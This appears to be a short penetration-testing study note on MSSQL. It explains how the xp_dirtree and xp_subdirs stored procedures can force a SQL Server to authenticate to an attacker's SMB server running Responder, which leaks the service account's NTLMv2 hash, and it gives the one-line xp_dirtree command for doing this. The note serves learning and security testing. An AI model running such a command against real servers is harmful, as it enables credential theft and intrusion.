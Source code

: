 ```yaml
---
tags:
  - Enumeration
  - TCP
  - MSSQL
  - Concepts
---
```


We can also steal the MSSQL service account hash using `xp_subdirs` or `xp_dirtree` undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system. 

When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server.

1. Start [[1. Responder|Responder]]
2. Cost:
```cmd-session
EXEC master..xp_dirtree '\\10.10.110.17\share\'
```